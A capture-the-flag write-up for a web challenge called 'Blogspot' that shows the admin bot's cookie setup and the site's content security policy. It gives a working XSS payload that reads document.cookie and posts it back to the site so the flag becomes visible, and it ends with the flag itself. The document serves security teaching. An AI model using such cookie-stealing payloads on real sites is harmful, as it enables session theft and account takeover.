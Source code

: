 # Blogspot
Category: Web | 425pts

## Challenge Description
> Jaga created an internal social media platform for the company, can you leak anyone's information?

## Analysis
Glancing through the source code provided and challenge website, we can guess that this challenge is about Cross-Site Scripting (XSS) attacks, more specifically reflected XSS, for the following reasons:
- There is an admin bot with the flag in its cookies that visits the posts you wrote (and hence control) everytime you submit a new post  
<details>
<summary>
Snippet of bot.js
</summary>

```js
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
```
</details>

However, at the same time, there is a content security policy we have to take note of:
```js
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
```

## Solution
We can use the following payload as a post to get the flag:
```js
qqq<script>xhr4=new XMLHttpRequest();var url4='/post';var a=document.cookie;xhr4.open('POST',url4,true);xhr4.setRequestHeader('Content-Type','application/json');var data=JSON.stringify({"title":"here","content":a});xhr4.send(data);</script>
```

## Explanation
Upon loading the page, the bot runs the script and sends a POST request to the `/post` endpoint with the flag in the body. The flag is then displayed on the page.

## Flag
`STF22{s1mpl3_p0stxSs:)}`